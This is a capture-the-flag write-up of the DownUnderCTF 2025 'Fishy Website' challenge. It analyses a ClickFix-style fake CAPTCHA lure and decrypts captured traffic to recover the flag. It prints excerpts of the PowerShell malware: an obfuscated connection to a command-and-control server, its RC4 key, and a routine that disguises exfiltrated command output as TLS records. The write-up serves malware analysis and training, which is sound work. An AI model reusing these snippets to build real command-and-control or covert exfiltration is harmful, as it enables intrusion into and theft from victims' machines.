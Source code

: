 # Fishy Website — Writeup

**Category:** *misc*

## Initial access

A link to a webpage with a login form was provided. After attempting to log in, I was redirected to a page to "solve a CAPTHCA:

<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy1.png" alt="Captcha task"/>
</p>

This is a typical example of [ClickFix](https://www.group-ib.com/blog/clickfix-the-social-engineering-technique-hackers-use-to-manipulate-victims/) attack. The PowerShell cmdlet fetches additional data from the `../verify/script` endpoint, which contains a base64-encoded PowerShell script.

## Malware description

1. First, the malware connects to its C2 server using a `xor` encrypted IP address and port:

```PowerShell
$CLIENT = New-Object System.Net.Sockets.TcpClient

$CLIENT.Connect((Func1 -ARRAY_TO_FUNC @(5,7,25,2,25,3,15,25,5,7,7) -KEY 55), ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49))

$TCP_STREAM = $CLIENT.GetStream()
```
	Func1 decrypts the given array with key 55.

2. Next, the malware receives the RC4-encrypted commands from the server and decrypts them with the following key:

```PowerShell
$VAR1 = 0xf1,0x6e,0xcd,0xc6,0x79,0x4c,0x66,0xd1,0x02,0xf8,0x33,0xc4,0x86,0xe7,0xa4,0x35,0x8d,0x69,0xbd,0xd2,0x1d,0x50,0xf5,0xfb,0xdf,0xec,0xaf,0x0b,0x9e,0x53,0xa4,0xd3
```

3. The result of the command is encrypted with RC4 with the same key and appends extra bytes to the end:

```PowerShell
function Func3 {
	param ([string]$C2_COMMAND)
	$UTF-8_ENCODED_STR = [System.Text.Encoding]::UTF8.GetBytes($C2_COMMAND)
	$ARRAY_TO_FUNC = (Func2 -C2_KEY $VAR1 -C2_STRING $UTF-8_ENCODED_STR) + (0x02,0x04,0x06,0x08)
	$REVERSED_BYTES_ARRAY = [System.BitConverter]::GetBytes([int16]$ARRAY_TO_FUNC.Length)
	[Array]::Reverse($REVERSED_BYTES_ARRAY)
	return (0x17, 0x03, 0x03) + $REVERSED_BYTES_ARRAY + $ARRAY_TO_FUNC
}
```

## Solution

1.  A `.pcapng` file with captured traffic was provided.
2. I decrypted the C2 IP address from step 1 of the malware description:

<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy2.png" alt="Decrypted IP address"/>
</p>

3. I then filtered the traffic in the file using this IP address and found many TLS 1.3 encrypted packets:

<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy3.png" alt="Some of the encrypted packets"/>
</p>

4. I didn't find anything useful here, but I noticed that some data that was marked as encrypted in the packets has the tail with bytes from step 3 of the malware description:

<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy4.png" alt="The strange data"/>
</p>

5. So I tried to decrypt the data:

<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy5.png" alt="Decrypted data"/>
</p>

6. After that I started to look for the possible flag and found the next packet:

<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy6.png" alt="The possible flag packet"/>
</p>

7. I decrypted the data and got a base64-encoded string, which turned out to be the flag:

<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy7_0.png" alt="Decrypted bytes"/>
</p>
<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy7_1.png" alt="base64 string"/>
</p>
<p align="center">
<img src="../resources/DownUnderCTF 2025/Fishy7_2.png" alt="The flag"/>
</p>
